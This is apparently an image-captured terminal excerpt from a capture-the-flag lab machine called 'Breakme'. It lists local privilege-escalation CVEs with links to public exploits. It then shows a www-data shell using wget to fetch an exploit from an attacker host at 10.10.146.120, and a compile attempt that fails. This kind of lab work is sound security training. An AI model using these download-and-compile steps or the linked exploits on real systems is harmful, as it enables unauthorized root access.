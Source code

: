 ```bash
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2022-2586] nft_object UAF

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: less probable
   Tags: ubuntu=(20.04){kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: mint=19,ubuntu=18|20, debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: centos=6|7|8,ubuntu=14|16|17|18|19|20, debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

www-data@Breakme:/home/john$ wget http://10.10.146.120:8000/exploit-2.c -O /tmp/exploit-2.c
</10.10.146.120:8000/exploit-2.c -O /tmp/exploit-2.c
--2024-09-21 10:27:34--  http://10.10.146.120:8000/exploit-2.c
Connecting to 10.10.146.120:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7752 (7.6K) [text/plain]
Saving to: \u2018/tmp/exploit-2.c\u2019

/tmp/exploit-2.c    100%[===================>]   7.57K  --.-KB/s    in 0s      

2024-09-21 10:27:34 (170 MB/s) - \u2018/tmp/exploit-2.c\u2019 saved [7752/7752]

www-data@Breakme:/home/john$ gcc /tmp/exploit-2.c -o /tmp/dirtypipez
gcc /tmp/exploit-2.c -o /tmp/dirtypipez
bash: gcc: command not found
www-data@Breakme:/home/john$ gcc /tmp/exploit-2.c -o /tmp/dirtypipe
gcc /tmp/exploit-2.c -o /tmp/dirtypipe
bash: gcc: command not found

```
